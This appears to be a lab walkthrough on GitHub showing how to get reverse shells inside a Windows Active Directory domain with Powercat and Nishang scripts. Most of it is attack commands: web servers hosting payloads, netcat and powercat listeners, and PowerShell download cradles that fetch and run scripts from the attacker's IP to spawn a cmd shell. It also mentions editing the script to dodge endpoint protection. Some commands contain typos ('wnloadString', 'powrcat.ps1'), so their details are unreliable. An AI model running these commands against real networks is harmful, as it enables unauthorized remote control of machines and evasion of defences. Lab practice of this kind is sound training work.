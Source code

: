 # Active Directory - Reverse Shell - Powercat [Linux and Windows]

In this documentation, we will demonstrate two ways that an attacker can get a reverse shell once in a windows active directory domain. The technique used in this lab will involve the use of **Powercat** from both Kali Linux as well as Windows.

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled.png)

**Method 1:** Using Kali Linux

**Method 2:** Using a Windows System

## Reverse Shell Demonstration - Kali Linux Method

Getting a reverse-shell with **`Powercat`** hosted on our attacking Kali Machine

We will download the **`Powercat` script** from **`Github`** or locate the binary on your Kali machine

```bash
git clone https://github.com/besimorhino/powercat.git
```

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%201.png)

If powershell-empire is installed on your Kali Linux Machine, you might be able to locate the file here: 

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%202.png)

In order to execute this attack, we must host the file on kali linux and execute it from the Windows Client in the active directory environment.  To this, we simply start a Python Web Server on our attacking machine.

**Starting a Python Web Server and host the file (`Powercat.ps1`)** 

```bash
python3 -m http.server 80
```

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%203.png)

With our web server started on port 80, we will start a netcat listener on port 4455. This netcat listening will listen for an incoming connection on port 4455 on our kali attacking computer. This means, once the file has been executed on the windows client, a connection will be sent back to our attacking machine, where we will have system command execution access on the remote system.

Start a **`netcat`** listener for a return shell

```bash
sudo nc -nlvp 4455
```

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%204.png)

On the Windows Target Machine, we will execute the below **`powershell`** download cradle which will download and execute the command without saving the file to the local hardisk of the target computer.

```bash
powershell -c "IEX(New-Object System.Net.WebClient).wnloadString('http://192.168.0.23/powrcat.ps1');powercat -c 192.168.0.23 -p 4455 -e cmd"
```

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%205.png)

Revisiting our **`netcat`** listener on our kali linux attacking machine, we can see that we were able to get a reverse shell.

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%206.png)

## Reverse Shell Demonstration - Windows Method

**Kali:** 192.168.0.23 - Attacker’s Machine

**Windows Client 1:** 192.168.0.31 - Foothold Machine

**Windows Client 2:** 192.168.0.40 (Target)

In this scenario, we will demonstrate hosting the powercat file on a Windows System using hfs **[Http File Server] -** URL: [https://www.rejetto.com/hfs/?f=dl](https://www.rejetto.com/hfs/?f=dl)

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%207.png)

After executing the **HFS binary**, we will note the url (which we will use to download and execute our powershell script from client 2 - 192.168.0.40). 

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%208.png)

### Transferring Invoke-PowerShellTCP Script to Client 1

URL: [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

We will transfer the `**Invoke-PowerShellTcpEx.ps1**` file from our Kali Machine onto our Windows Domain Client - Client 1 [192.168.0.31]

From our Kali Linux computer, we can start a Python Web Server using the below commands.

```bash
python3 -m http.server 80
```

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%209.png)

After starting the web server, we can transfer the powershell script to client 1 using the below command.

```bash
iwr -uri http://192.168.0.23/Invoke-PowerShellTcpEx.ps1 -Outfile Invoke-PowerShellTcpEx.ps1
```

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%2010.png)

We will edit the `**Invoke-PowerShellTcpEx.ps1**` file for sake of avoiding detection problems from endpoint protection.

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%2011.png)

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%2012.png)

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%2013.png)

**From Client1 [192.168.0.31]** we will setup a Powercat listener on port 443

```bash
powercat -l -v -p 443 -t 100000
```

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%2014.png)

**From Client2 [192.168.0.40]** we will issue the powershell download cradle command.

```bash
IEX (New-Object Net-WebClient).downloadstring('http://192.168.0.31/Invoke-PowerShellTcpEx.ps1')
```

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%2015.png)

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%2016.png)

![Untitled](./ActiveDirectory/Powercat/Active%20Directory%20-%20Reverse%20Shell%20-%20Powercat%20%5BLinux%2076d3b807088c437091930cb01f448cad/Untitled%2017.png)